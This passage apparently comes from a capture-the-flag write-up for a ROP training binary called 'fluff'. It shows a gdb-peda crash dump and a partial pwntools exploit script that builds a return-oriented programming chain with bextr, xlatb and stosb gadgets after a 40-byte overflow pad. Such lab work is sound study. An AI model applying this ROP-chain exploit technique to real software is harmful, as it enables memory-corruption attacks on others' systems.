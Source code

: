 ```bash         
0008| 0x7fffffffe120 --> 0x7fffffffe567 ("POWERSHELL_TELEMETRY_OPTOUT=1")
0016| 0x7fffffffe128 --> 0x7fffffffe585 ("PWD=/home/kali/Downloads/fluff")
0024| 0x7fffffffe130 --> 0x7fffffffe5a4 ("QT_ACCESSIBILITY=1")
0032| 0x7fffffffe138 --> 0x7fffffffe5b7 ("QT_AUTO_SCREEN_SCALE_FACTOR=0")
0040| 0x7fffffffe140 --> 0x7fffffffe5d5 ("QT_QPA_PLATFORMTHEME=qt5ct")
0048| 0x7fffffffe148 --> 0x7fffffffe5f0 ("SESSION_MANAGER=local/kali:@/tmp/.ICE-unix/756,unix/kali:/tmp/.ICE-unix/756")
0056| 0x7fffffffe150 --> 0x7fffffffe63c ("SHELL=/usr/bin/zsh")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00007fffffffe40a in ?? ()
gdb-peda$ 
```

### pwntools

```python
from pwn import *
import ctypes

# this function set the RBX register to the target value
def control_RBX(target, rop):
    rbx_gadget = p64(0x0040062a) # pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx;
    magic_value = 0x3ef2
    rdx = p64(0x4000)
    
    rbx = p64(ctypes.c_ulong(target - magic_value).value)
    
    rop += rbx_gadget + rdx + rbx  
    
    return rop

# this functiojn set the al register to the target value
def control_AL(target, curr_al, elf, rop): 
    
    xlat_gadget = p64(0x00400628) # xlatb; ret;
    
    target_addr = next(elf.search(target))
    rbx = ctypes.c_ulong(target_addr - curr_al).value
    
    rop = control_RBX(rbx, rop)
    rop += xlat_gadget
    
    return rop

# inizializations stuff
elf = context.binary = ELF("fluff")
io = process(elf.path)
context.arch = 'amd64'
context.log_level = 'debug'

# usual thrash padding to get the overflow
payload = b''
payload = b'A'*40

# some  address we need
pop_rdi = p64(0x4006a3) # pop rdi; ret;
data = p64(0x601028)
stos = p64(0x00400639) # stosb byte [rdi], al;

# the fisrt part of the payload will set rdi to data address
payload += pop_rdi + data
```